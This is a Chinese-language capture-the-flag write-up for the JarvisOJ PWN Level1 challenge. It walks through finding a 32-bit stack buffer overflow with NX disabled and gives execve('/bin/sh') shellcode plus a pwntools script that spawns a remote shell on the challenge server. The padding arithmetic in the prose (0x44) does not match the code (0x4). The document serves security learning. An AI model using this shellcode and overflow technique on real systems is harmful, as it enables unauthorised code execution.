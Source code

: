 # JarvisOJ-PWN-Level1
## 0x01 文件检查

```shell
file start
```

![](README/5D22B47D-27B8-4274-AD5C-EB51B869990F.png)

文件是32位的elf文件

```shell
checksec level1
```


![](README/1B0757AE-E61E-4C6C-82FA-0E2183641EE6.png)

NX的保护没有没有开，意味着栈上的数据可以被当作代码来执行


## 0x02 反编译
把文件放到IDA中，按下F5查看伪代码
![](README/237A9C08-20DB-41AD-8C13-44F77C05979C.png)

在main主函数中只有一个函数调用vulnerable_function,跳到该函数上进行查看
![](README/E35C94CE-E6E8-4A83-97D6-D33DDB902523.png)
从[ebp-88h]来看，程序开辟的缓冲区大小是0x88,然后程序打印了buf的起始地址，但是read能够读取0x100的数据，明显超出了预定义的buf的大小，造成了缓冲区溢出。

利用的方案就是从buf的起始位置开始写入shellcode，shellcode不足以填满buf的用垃圾数据填充buf，直到填写的ret的位置时用buf的起始位置覆盖，eip指到该位置时跳回到buf的起始位置执行shellcode
![](README/2D61B90C-8769-4E77-8A83-E884BB07C95D.png)

要想利用栈溢出需要满足两个条件
1.知道buf的大小
2.知道栈的起始位置

buf的大小就是payload="a"**0x88+"b"**0x4 最后的0x4是因为ebp在32位地址下占用了4字节的数据

payload=shellcode+"a"(0x88+0x44-len(shellcode))+buf起始地址

其中shellcode可以用通用的
```
# execve ("/bin/sh") 
# xor ecx, ecx
# mul ecx
# push ecx
# push 0x68732f2f   ;; hs//
# push 0x6e69622f   ;; nib/
# mov ebx, esp
# mov al, 11
# int 0x80

shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

```

最后需要解决的就是buf的起始地址了，buf的起始地址程序直接打印了
最后的代码就是
```python
from pwn import *

conn = remote("pwn2.jarvisoj.com", 9877)

text = conn.recvline()[14: -2]
system_addr = int(text, 16)

shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
payload = shellcode + "a"*(0x88+0x4-len(shellcode))+p32(system_addr)
conn.send(payload)
conn.interactive()
conn.close()
```

![](README/AC669163-B91F-470C-83A6-D7A490BE8D9D.png)



